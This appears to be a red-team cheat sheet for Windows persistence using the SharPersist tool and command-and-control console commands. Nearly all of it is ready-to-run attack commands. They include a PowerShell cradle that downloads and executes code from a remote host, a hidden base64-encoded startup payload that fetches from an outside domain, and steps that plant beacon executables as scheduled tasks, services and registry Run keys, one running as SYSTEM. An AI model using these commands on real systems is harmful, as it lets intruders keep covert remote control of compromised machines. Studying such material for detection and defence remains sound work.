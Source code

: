 ### SharPersist
https://github.com/mandiant/SharPersist

### Powershell Encoding
```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

### Task Scheduler
```powershell
execute-assembly /root/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Name" -m add -o hourly
execute-assembly /root/SharPersist.exe -t schtask -n "Name" -m list
execute-assembly /root/SharPersist.exe -t schtask -n "Name" -m remove
```

### Startup Folder
```powershell
execute-assembly /root/SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "Name" -m add
execute-assembly /root/SharPersist.exe -t startupfolder -m list
execute-assembly /root/SharPersist.exe -t startupfolder -f "Name" -m remove
```

### Registry AutoRun (Admin Access for "hklmrun")
```powershell
execute-assembly /root/SharPersist.exe -t reg -c "C:\Windows\System32\beacon.exe" -k "hkcurun" -v "Name" -m add
execute-assembly /root/SharPersist.exe -t reg -k "hkcurun" -v "Name" -m remove
execute-assembly /root/SharPersist.exe -t reg -k "hkcurun" -m list
```

### Windows Service (Admin Access)
```powershell
execute-assembly /root/SharPersist.exe -t service -c "C:\Windows\System32\beacon-svc.exe" -n "Name" -m add
execute-assembly /root/SharPersist.exe -t service -n "Name" -m list
execute-assembly /root/SharPersist.exe -t service -n "Name" -m remove
```

### Task Scheduler (schtasks)
```powershell
shell schtasks /create /sc minute /mo 1 /tn cool /tr "copy /Y C:\Users\Hassan\long.exe C:\Users\Hassan\short.exe & C:\Users\Hassan\short.exe"
shell schtasks /query /tn cool /V /FO LIST
shell schtasks /run /tn "cool"
shell schtasks /delete /tn "cool"
shell schtasks /create /sc onlogon /tn evil /tr calc.exe /ru SYSTEM
```

### Registry AutoRun (reg)
```powershell
shell reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
shell reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest /d calc.exe
shell reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest /d calc.exe
shell reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest
shell reg delete HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v EvilTest
```
